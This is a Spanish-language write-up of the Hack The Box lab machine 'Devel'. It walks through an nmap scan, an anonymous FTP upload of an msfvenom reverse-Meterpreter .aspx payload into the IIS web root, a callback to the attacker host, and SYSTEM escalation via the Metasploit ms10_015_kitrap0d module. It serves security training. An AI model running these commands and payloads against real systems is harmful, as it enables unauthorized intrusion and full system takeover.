





---

## Ficha técnica


- **Nombre de la máquina:** Devel
- **Dificultad:** Fácil
- **Plataforma:** Hack The Box
- **Creador:** ch4p
- **Resumen:** Devel es una máquina Windows de dificultad fácil que expone un servicio FTP con acceso anónimo habilitado, cuyo directorio raíz coincide con la raíz del servidor web IIS 7.5. Esta mala configuración permite subir un archivo malicioso `.aspx` para obtener una shell inicial bajo el contexto de `IIS APPPOOL\Web`. Posteriormente, la falta de parches de seguridad en el sistema operativo (Windows 7 de 32 bits) facilita la escalada de privilegios a `NT AUTHORITY\SYSTEM` mediante la explotación de la vulnerabilidad KitRAP0d (MS10-015).

---

## 1. Reconocimiento

### 1.1. Comprobación de conectividad

Se verificó la conectividad con el host objetivo mediante el envío de cuatro paquetes ICMP:

```bash
ping -c 4 10.129.103.6
```

**Resultado:**

```plaintext
PING 10.129.103.6 (10.129.103.6) 56(84) bytes of data.
64 bytes from 10.129.103.6: icmp_seq=1 ttl=127 time=118 ms
64 bytes from 10.129.103.6: icmp_seq=2 ttl=127 time=117 ms
64 bytes from 10.129.103.6: icmp_seq=3 ttl=127 time=117 ms
64 bytes from 10.129.103.6: icmp_seq=4 ttl=127 time=115 ms
```

> **Conclusión:** La máquina responde correctamente sin pérdida de paquetes. El valor del TTL es 127, lo que sugiere un sistema operativo Windows (TTL por defecto de 128, reducido en 1 por el salto de red del túnel VPN).

---

### 1.2. Escaneo de puertos TCP

A continuación se realizó un escaneo completo de los puertos TCP utilizando Nmap:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.103.6
```

**Resultados:**

```plaintext
Nmap scan report for 10.129.103.6
Host is up (0.12s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

> **Conclusión:** Únicamente se detectaron dos servicios expuestos: FTP (21/tcp) y HTTP (80/tcp). La combinación de estos dos servicios suele representar un vector de ataque crítico si existe sincronización entre el almacenamiento FTP y el directorio web raíz.

---

## 2. Enumeración

### 2.1. Enumeración general de servicios expuestos

Se ejecutaron los scripts por defecto de Nmap y la detección de versiones (`-sCV`) sobre los puertos abiertos identificados:

```bash
sudo nmap -p 21,80 -sCV -Pn -n 10.129.103.6
```

**Resultados:**

```plaintext
Nmap scan report for 10.129.103.6
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

> **Conclusión:** Se identificó un riesgo de seguridad crítico, ya que el servidor FTP permite el acceso mediante sesiones anónimas. Además, la presencia de la carpeta `aspnet_client/` indica que el directorio raíz del servidor web Microsoft IIS 7.5 coincide o está sincronizado con el almacenamiento del servicio FTP. Por lo tanto, si es posible cargar archivos con extensiones ejecutables (como `.asp` o `.aspx`), existe una vía directa para comprometer el sistema objetivo y obtener acceso remoto.

---

## 3. Explotación

### 3.1. Prueba de concepto

Antes de desplegar una Reverse Shell, se validó la capacidad de escritura en el FTP y el procesamiento de scripts por parte del servidor web IIS 7.5.

**Payload de prueba (`test.asp`):**

```asp
<%
Response.Write("<h1>Valid extension</h1>")
Response.Write("Server version: " & Request.ServerVariables("SERVER_SOFTWARE"))
%>
```

Se estableció sesión FTP anónima y se subió la PoC:

```bash
ftp 10.129.103.6
Connected to 10.129.103.6.
220 Microsoft FTP Service
Name (10.129.103.6:omah): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put test.asp
local: test.asp remote: test.asp
229 Entering Extended Passive Mode (|||49213|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************|   133        3.25 MiB/s    --:-- ETA
226 Transfer complete.
133 bytes sent in 00:00 (0.29 KiB/s)
```

Posteriormente, se validó el renderizado del archivo realizando una petición HTTP a http://10.129.103.6/test.asp.



> **Conclusión:** La PoC confirmó que el servidor FTP admite la subida de archivos y que IIS interpreta adecuadamente scripts ejecutables en el servidor.

---

### 3.2. Acceso inicial

Aunque la prueba básica en Classic ASP (`.asp`) funcionó para imprimir texto, las shells complejas en esta tecnología suelen presentar problemas de compatibilidad en entornos IIS 7.5. Debido a que esta versión trabaja nativamente sobre la pila .NET Framework, se optó por generar un payload en formato ASP.NET (`.aspx`).

1. **Generación del payload:** Se utilizó `msfvenom` para crear un payload Meterpreter inverso en formato `.aspx`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.6 LPORT=4444 -f aspx -o shell.aspx
```

2. **Subida del archivo:** Se transfirió el payload generado al servidor utilizando el cliente FTP:

```bash
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49218|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************| 38296      162.63 KiB/s    00:00 ETA
226 Transfer complete.
38296 bytes sent in 00:00 (51.99 KiB/s)
```

3. **Configuración del listener:** Se inició el módulo `multi/handler` en Metasploit Framework para recibir la conexión inversa:

```bash
msf > use multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.17.6
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > run
```

4. **Ejecución del recurso:** Se realizó una petición HTTP al archivo malicioso mediante `curl`:

```bash
curl -X GET http://10.129.103.6/shell.aspx
```



> **Resultado:** Se obtuvo exitosamente una sesión de Meterpreter activa interactuando bajo con una cuenta de servicio con privilegios limitados `IIS APPPOOL\Web`.

---

## 4. Post-Explotación

El objetivo ejecuta **Windows 7 de 32 bits** sin parches de seguridad aplicados. Debido a las restricciones de una shell de bajo nivel y la antigüedad del SO, se utilizó el módulo de reconcimiento local `local_exploit_suggester` de Metasploit:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 2
set SHOWDESCRIPTION true
exploit
```

**Resultados:** Entre los vectores reportados destaca la vulnerabilidad `ms10_015_kitrap0d`.



> **Función del exploit:** El exploit **`ms10_015_kitrap0d`** se aprovecha de una vulnerabilidad de **escalada de privilegios locales** (CVE-2010-0232) en el componente **NTVDM** de los sistemas **Windows de 32 bits**. Este subsistema, diseñado para ejecutar aplicaciones antiguas de 16 bits, no valida correctamente ciertas excepciones de la BIOS del _kernel_, lo que permite a un usuario con acceso limitado inyectar código malicioso mediante llamadas al sistema controladas. Como resultado, el atacante puede evadir las restricciones de seguridad ordinarias y obtener de forma inmediata el **control total del equipo con privilegios de SYSTEM**

### Explotación de KitRAP0d

Se configuró y ejecutó el módulo de escalada correspondiente utilizando la sesión actual:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 2
set LHOST 10.10.17.6
set LPORT 4433
exploit
```

**Resultado:** El exploit se ejecutó con éxito, elevando privilegios y devolviendo una nueva sesión con control absoluto del sistema (`NT AUTHORITY\SYSTEM`).



**Captura de Flags:** Para finalizar el laboratorio, se localizaron y leyeron las flags del usuario y del administrador:



---